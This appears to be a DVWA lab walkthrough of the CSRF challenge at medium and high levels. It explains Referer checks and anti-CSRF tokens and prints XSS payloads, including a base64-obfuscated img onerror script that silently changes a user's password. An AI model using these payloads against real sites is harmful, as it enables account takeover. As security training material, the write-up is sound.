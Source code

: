 <figure><img src="../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

It usually need to convert URL-encode key characters and we can redirect user to localhost/DVWA page;

<figure><img src="../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

Upon obtaining the HTTP\_REFERER source (1st GET request), all javascript codes are accepted, then the password is changed (2st GET request).

{% hint style="warning" %}
Only checking if the HTTP\_REFERER request has the same name and origin of name server we can't be sure that request is valid, because can be redirect using XSS Reflected attack.
{% endhint %}

## High

<figure><img src="../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

* Generation and checking of Anti-CSRF token (in our case called user\_token), that will be regenerated for every request or page refresh

<div align="left"><figure><img src="../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure></div>

* Check the match between the new password and the confirmation password
* Take a real escape string
* In the end, there's generate feedback for the end user.

To fix the first problem, we realize that for solving the high reflective XSS level we need the following payload

```html
<img src='#' onerror=alert(1) />
```

Even like this, if we just put the previous payload,

```php
<Script> var xmlHttp = new XMLHttpRequest(); var url = "http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change"; xmlHttp.open("GET", url, false); xmlHttp.send(null); </Script>
```

which has to be base64d and decoded with the `atob` function otherwise we get blocked, it won’t work because of the CSRF code.

```html
<img src='#' onerror="var xmlHttp = new XMLHttpRequest(); xmlHttp.open('GET', atob('aHR0cDovL2V2aWwvdnVsbmVyYWJpbGl0aWVzL2NzcmYvP3Bhc3N3b3JkX25ldz1uZXdwYXNzJnBhc3N3b3JkX2NvbmY9bmV3cGFzcyZDaGFuZ2U9Q2hhbmdl'), false); xmlHttp.send(null);" />
```

The idea then is to first do a GET request, extract the CSRF code, and then send it in the URL. In particular, we want to create the following URL

```php
GET /vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=6bed618fc0eaf44857bfa115c4c61a79
```
